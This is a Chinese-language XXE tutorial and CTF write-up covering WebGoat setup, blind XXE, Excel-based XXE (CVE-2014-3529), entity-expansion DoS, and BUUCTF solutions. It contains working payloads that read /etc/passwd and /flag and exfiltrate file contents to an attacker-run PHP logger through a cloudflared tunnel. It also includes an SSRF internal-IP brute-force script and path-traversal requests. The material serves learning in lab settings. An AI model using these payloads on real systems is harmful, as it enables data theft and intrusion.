









# 目录
[环境](#环境)
  - [webgoat](#WebGoat搭建)
  -  [php和Apache httpd](#php和Apache-httpd)

[XXE](#XXE)
  - [XXE原理简介](#XXE原理简介)
  - [xml简介](#XML)
  - [blind XXE](#blind-xxe)
  - [其他情景xxe攻击](#其他情景xxe攻击)  

---

[XXE练习](#XXE练习)  
  - [Fake XML cookbook](#BUUCTF-Fake-XML-cookbook)
  - [True XML cookbook](#BUUCTF-True-XML-cookbook)
  - [BUUCTF XXE COURSE 1](#BUUCTF-XXE-COURSE-1)
  - [filejava](#BUUCTF-filejava )  

第一节介绍了实验所需要的环境和搭建方法。XXE部分介绍一般xxe，blind xxe和xxe dos。首先说明了XXE的攻击原理和关键文件类型xml。XXE练习题由BUUCTF提供。  

---

# 环境   
## WebGoat搭建  
webgoat是一个帮助新手学习漏洞的应用程序，提供了部分例题  
安装docker,使用以下命令，第一个-p映射的是webgoat,第二个映射webwolf，   
```bash
docker run -it -p 127.0.0.1:8080:8080 -p 127.0.0.1:9090:9090 webgoat/webgoat
```  
作者建议ip不使用127.0.0.1，在搭建时作者做了修改，搭建成功如下    
  

---

访问192.168.88.1:8080/WebGoat能看到如下页面    

注册一个用户登录即可，注册之后需要访问192.168.88.1:8080/WebGoat/login才能正常打开 

---

## php和Apache httpd  
apache 下载  
```bash
sudo apt update
sudo apt install apache2
```  

防火墙设置  
```bash
sudo ufw allow 'Apache'
```  

---  

访问服务，url为自己的ip，页面如下  
  

apache默认文件目录 /var/www/html/，访问服务时，默认返回该目录下的index.html  

---

php下载  
```bash
sudo apt install php libapache2-mod-php
```  
重启Apache  
```bash
sudo systemctl restart apache2
```  

---  

测试  
在/var/www/html下编写hello.php文件  

```php
<?php

echo "hello";
```  

访问ip/hello.php  
下面是成功的情况  
  

---  

## 工具  
需要一个帮助抓包，拦截请求修改请求的工具，作者使用yakit  


--- 

# XXE  


## XXE原理简介  
XXE（XML外部实体注入）是一种针对应用程序处理XML数据的方式的攻击。在这种攻击中，攻击者利用应用程序对XML输入的处理不当，访问敏感数据。  

## XML  
XML 是可扩展标记语言（Extensible Markup Language），是一种标签语言，用来传输和存储数据。必须使用树形结构。  
DTD用于定义XML文档的结构、元素、属性、实体等合法组成规则。这是xxe攻击的关键位置  
XML实体在DTD中被声明，用于代替内容或标记。  

---  

## XXE案例    
打开webgoat,在A5下找到xxe，第4个页面  
  
  

--- 

要求找到根目录下的内容有什么  
先提交一个评论，这里提交的评论时day，抓包发现评论的内容出现在text标签中    
  
可以发现请求体使用xml格式  

---  

再次发送拦截，并且修改请求体为以下内容  
```xml
<?xml version="1.0"?>
<!DOCTYPE comment [
<!ENTITY root SYSTEM "file:///">
]>
<comment>
<text>&root;</text>
</comment>
```  

提交之后发现评论区出现了根目录的内容  
 

---  

第一行是一个声明，这里说明了xml的版本  
dtd部分使用下面的格式  
```xml  
<!DOCTYPE a [

]>
```  
a一般是根标签名字，也可以使用其他名字，但一般要求使用根标签的名字  
SYSTEM声明外部实体，会将后面的字符串识别为一个资源的路径，并加载资源赋给实体的值，上述内容中，定义了一个实体root，SYSTEM将根目录下的内容返回给root，当引用root时，解析器会使用实体的值代替  

xml部分一般就是一些标签，类似html，但是所有的标签都必须在根标签内部  
 
---  


## blind xxe  

服务端可能设置一些规则，比如检查关键字或者特殊字符，将原本的数据修改或者过滤后返回，或者是开发者原本就没有做回显信息的功能，即便成功访问到关键数据，也没有返回给攻击者。一般使用外带数据的方式获取数据  

--- 

打开第7个页面，任务是找出/home/webgoat/.webgoat-2023.8//XXE/webgoat/secret.txt的内容  
  

---  

首先发个评论，抓包，和上一题一样  
  

--- 

按照xxe的思路，将请求体修改为一下内容发送，评论区将显示想要的结果  
```xml
<?xml version="1.0"?>
<!DOCTYPE comment[
<!ENTITY secret SYSTEM "file:///home/webgoat/.webgoat-2023.8//XXE/webgoat/secret.txt">
]>
<comment>
<text>&secret;</text>
</comment>
```
但是返回结果并不是想要的内容，这是因为服务端检查到特殊的内容后，会将原本预期的内容修改  
  

---

### 外带数据实现xxe攻击  

外带数据一般是将目标内容作为get请求的参数添加到url路径后面，查看请求得到url，以本题为例  

首先需要一个目标主机能访问到的服务，攻击者能查看这个服务的请求信息  
这里可以使用Apache搭建一个服务，要记录参数值，在/var/www/html/var/www/html/下新建一个get.php文件，内容如下  
```php
<?php

echo "This is very good!","</br>";
$file = fopen("test.txt","w");
foreach ($_GET as $key => $val){
    echo $key," ",$val,"</br>";
    fwrite($file,$val);
    fwrite($file,"\n");
}

fclose($file);
```  
当目标主机访问这个页面时，get请求的参数值会保存到test.txt文件中  


建立一个kk.txt,内容如下，kk.txt的作用是实现外部引用DTD，这里需要使用外部DTD  
```xml
<!ENTITY % int "<!ENTITY &#37; send SYSTEM 'http://192.168.88.1/get.php?a=%file;'>">
```  

---  

发评论，抓包，修改请求体如下  
```xml  
<?xml version="1.0"?>
<!DOCTYPE comment[
<!ENTITY % file SYSTEM "file:///home/webgoat/.webgoat-2023.8//XXE/webgoat/secret.txt">
<!ENTITY % out SYSTEM "http://192.168.88.1/kk.txt">
%out;%int;%send;
]>
<comment>
<text>hello</text>
</comment>
```  
查看test.txt,保存了目标内容  
  

---  


1. 在外部DTD中，send实体嵌套定义在int实体中，这是为了将后面的%secret;展开，如果不嵌套，而是直接用下面方式定义  
```xml
<!ENTITY % send SYSTEM 'http://192.168.88.1/get.php?a=%secret;'>
```  
那么test.txt中的内容将是字符串"%file;"  xml解析器时只对实体的值解析，SYSTEM后面的字符串作为资源路径不被解析，嵌套后SYSTEM作为字符串不被识别为关键字，解析器将后面的实体展开  

---  

2. 实体int通过外部DTD定义，据说是因为xml解析时对内部dtd和外部dtd有区别，对内部定义不允许嵌套，
```xml
<?xml version="1.0"?>
<!DOCTYPE comment[
<!ENTITY % secret SYSTEM "file:///home/webgoat/.webgoat-2023.8//XXE/webgoat/secret.txt">
<!ENTITY % int "<!ENTITY &#37; send SYSTEM 'http://192.168.88.1/get.php?a=%secret;'>">
%int;%send;
]>
<comment>
<text>hello</text>
</comment>
```  
test.txt的内容不会发生变化，因为send没有被定义，没有发出请求  

---  

3. send并不一定需要是参数实体，也可以是通用实体，用如下方式也可以得到目标内容  
```xml
<!ENTITY % int "<!ENTITY send SYSTEM 'http://192.168.88.1/get.php?a=%secret;'>">
```  
```xml  
<?xml version="1.0"?>
<!DOCTYPE comment[
<!ENTITY % secret SYSTEM "file:///home/webgoat/.webgoat-2023.8//XXE/webgoat/secret.txt">
<!ENTITY % out SYSTEM "http://192.168.88.1/kk.txt">
%out;%int;
]>
<comment>
<text>hello&send;</text>
</comment>  
```  
参数实体和通用实体有两个明显的区别，参数实体一般只在dtd内部使用，引用时使用%，通用实体一般只在xml部分（不能在dtd内），引用时使用&

---  

- 还有一个简单的绕过方法，构造请求体如下  

```xml
<?xml version="1.0"?>
<!DOCTYPE comment[
<!ENTITY file SYSTEM "file:///home/webgoat/.webgoat-2023.8//XXE/webgoat/secret.txt">
]>
<comment>  <text>aaaaa&file;</text></comment>
```  
  
因为服务端检验的逻辑是，首先判断请求体的原始数据有没有包含secret的内容，只要有就通过  
如果没有就xml解析，展开实体，但是webgoat的开发者写成secret的内容是否包含了text标签的内容，作者怀疑是开发者写错了，所以随便加点就可以绕过  

---

关键代码如下，完整代码的位置在WebGoat\src\main\java\org\owasp\webgoat\lessons\xxe，源码在github上可以下载  
```java  
 if (commentStr.contains(fileContentsForUser)) {
    /*
     * commentStr是请求体的原始数据，是xml格式的数据，是String类
     * fileContentsForUser是为用户生成的secret内容，也是String类
     * 如果commentStr包含secret的内容，就正确
     */
      return success(this).build();
    }
    

    try {
      /*
       * comments是一个CommentsCache类,管理评论区的内容
       * parseXml解析原始xml数据，返回评论的内容
       * false表示不启用安全模式，运行使用外部实体
       * comments解析请求体返回一个Comment类
       * 如果解析后的内容属于secret的一部分，就修改请求
       * 
       */
      Comment comment = comments.parseXml(commentStr, false);
      if (fileContentsForUser.contains(comment.getText())) {
        comment.setText("Nice try, you need to send the file to WebWolf");
      }
      comments.addComment(comment, user, false);
    } catch (Exception e) {
      return failed(this).output(e.toString()).build();
    }
```  

---  

### 内网穿透  


如果目标主机不在本地，可以使用内网穿透等方式。  
作者使用内网穿透的方式，有很多工具可以实现，比如ngrok,Tunnelblick,cloudflared等等,这里使用cloudflared  

下载cloudflared
```bash
wget https://github.com/cloudflare/cloudflared/releases/download/2025.2.1/cloudflared-linux-amd64.deb
sudo dpkg -i cloudflared-linux-amd64.deb 
```  
开启http服务后，使用命令  
```bash
cloudflared tunnel --url http://localhost:80 --protocol http2
```  

框框内就是新的url  

---  

## 其他情景xxe攻击  

### excel中的xml  
xml不仅可以作为请求体的结构，有些应用程序的配置文件也采用xml格式，程序会因为标签的属性或内容不同而产生不同的效果，比如webgoat的配置文件就是pom.xml,其中java.version标签指明了使用的java版本。  

---  

excel表实质上是一个压缩包，大量使用了xml格式的文件来存储信息。解压的内容如下，[Content_Types].xml是主要的配置文件，也是excel解析时触发xxe的关键文件 
  
 

--- 

###  CVE-2014-3529  

这是一个基于解析excel的漏洞  
本地环境仍然开启http服务，开启内网穿透，同样需要get.php和kk.txt,将url修改为cloudflared提供的url  
在https://yunjing.ichunqiu.com/cve/detail/1013?pay=2 轻松启动漏洞环境  

---

打开是下面的样子  
  
有上传文件，有excel解析，可以先构造一个excel文件上传，使得在解析时触发xxe攻击  

---  

新建一个空的xlsx文件，也就是excel表  
  
修改后缀为zip，解压  
  

---  

打开[Content_Types].xml，添加dtd部分    
```xml
<!DOCTYPE ws [
<!ENTITY % file SYSTEM "file:///flag">
<!ENTITY % remote SYSTEM "https://vs-gate-shareware-fighters.trycloudflare.com/kk.txt">
%remote;%int;%send;
]>
```  

---

压缩，将压缩包后缀改为xlsx，选择该文件并上传，上传后返回保存的文件名，复制文件名，返回解析  
  

---

查看本地test.txt文件  
  

---  

## xxe dos  
攻击者可以构造一个XML文档，其中包含大量递归实体或者引用非常大的外部文件，导致XML解析器在处理时消耗大量内存或CPU资源，从而拖慢甚至崩溃服务器。  
一个实体递归的例子  
```xml
<!DOCTYPE root [
  <!ENTITY a "lol">
  <!ENTITY b "&a;&a;&a;&a;&a;&a;&a;&a;&a;&a;">
  <!ENTITY c "&b;&b;&b;&b;&b;&b;&b;&b;&b;&b;">
]>
<root>&c;</root>  
```  

---  

# XXE练习  
BUUCTF贡献了很多题目，在BUUCTF搜索就可以找到了  
https://buuoj.cn/challenges  

---

## Fake XML cookbook    

一个登录界面，一般尝试登录，查看报文
  

---  
这里是随便输入登录，发现请求体是xml格式  
  

---  

查看响应内容，在msg标签返回了用户名，可以尝试xxe攻击，将flag在msg标签返回  
  

---  

构造请求体  

```xml
<?xml version="1.0"?>
<!DOCTYPE user[
<!ENTITY root SYSTEM "file:///flag">
]>
<user>
<username>&root;</username>
<password>ddd</password>
</user>
```  

---  

## True XML cookbook  


和上一题类似，先使用同样的方式xxe攻击，但是没有显示结果，可能是攻击失败，也可能没有这个文件，访问其他文件，比如/etc/passwd,返回结果，说明攻击成功，不存在flag文件  
  

---  

flag可能在内网主机上，查看/proc/net/fib_trie  
```xml  
<?xml version="1.0"?>
<!DOCTYPE user[
<!ENTITY root SYSTEM "file:///proc/net/fib_trie">
]>
<user><username>&root;</username><password>asdg</password></user>
```  
  

---  

将这些ip都爆破一下，爆破ip最后一位，在爆破10.244.244.20时找到flag,这里使用yakit爆破，{{int(0-255)}}时yakit语法，依次遍历1到255  

  

---  

要设置timeout，不然就需要很久，但是作者并不知道如何在yakit中设置，稍微等一会也可以，将状态排序，200的就是好的  
  

---  

或者使用一个简单的脚本  
```py
import requests
url="http://02f06db6-7db1-4e58-99b7-e1d85cde4555.node5.buuoj.cn:81/doLogin.php"
for i in range(0,256):
    payload=f'<?xml version="1.0"?><!DOCTYPE user[<!ENTITY root SYSTEM "http://10.244.244.{i}">]><user><username>&root;</username><password>ddd</password></user>'
    try:
        res=requests.post(url=url,data=payload,timeout=1)
        print(res.text,end="\n")
    except:
        continue
```  

---  

重定向
```bash
python hello.py > out.txt  
```  

然后在out.txt中搜索flag  


---  

## XXE COURSE 1  
一个登录界面，输入提交之后有回显，抓包发现是用xml格式发送数据  
  

---

直接找flag
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root[
<!ENTITY f SYSTEM "file:///flag">
]>
<root> <username>&f;</username> <password>asdg</password> </root>
```  
---  

可以找到  
  

---  

## filejava  
启动环境之后只有一个上传文件的页面，先上传一个文件，看请求  
  

上传之后跳转到一个下载页面，下载试试，看请求  

  

---  

下载文件的请求包中，filename后面应该是下载文件的路径  
  
路径遍历，修改filename，先查看上一级目录    
  

--- 
  
注意到一串html编码值，后面的&#47..想必就是填入的filename,解码之后就是文件保存的路径    
```
 &#47;usr&#47;local&#47;tomcat&#47;webapps&#47;ROOT&#47;WEB-INF&#47;upload&#47;15&#47;6&#47;..
```  
```
/usr/local/tomcat/webapps/ROOT/WEB-INF/upload/15/6/..
```  

---  

WEB-INF是javaweb应用根目录，但是一般不能通过url访问，路径遍历
查看web.xml文件  
```
filename=../../../../../../../../../usr/local/tomcat/webapps/ROOT/WEB-INF/web.xml  
```

---  

  
提到几个class文件位置，下载下来,比如下载ListFileServlet.class    
```  
filename=../../../../../../../../../usr/local/tomcat/webapps/ROOT/WEB-INF/classes/cn/abc/servlet/ListFileServlet.class  
```

然后使用jd-gui反编译，在UploadServlet.class中发现一段代码  
```java
if (filename.startsWith("excel-") && "xlsx".equals(fileExtName))
          try {
            Workbook wb1 = WorkbookFactory.create(in);
            Sheet sheet = wb1.getSheetAt(0);
            System.out.println(sheet.getFirstRowNum());
          } catch (InvalidFormatException e) {
            System.err.println("poi-ooxml-3.10 has something wrong");
            e.printStackTrace();
          }  
```  

---  

在上传文件时，文件名以"excel-"开头，后缀为"xlsx"就会执行这段代码  
WorkbookFactory.create会在解析excel文件时解压并解析内部的xml文件，那么显然就是excel中的xxe攻击，只要文件名符合要求，在上传时就可以自动触发xxe   

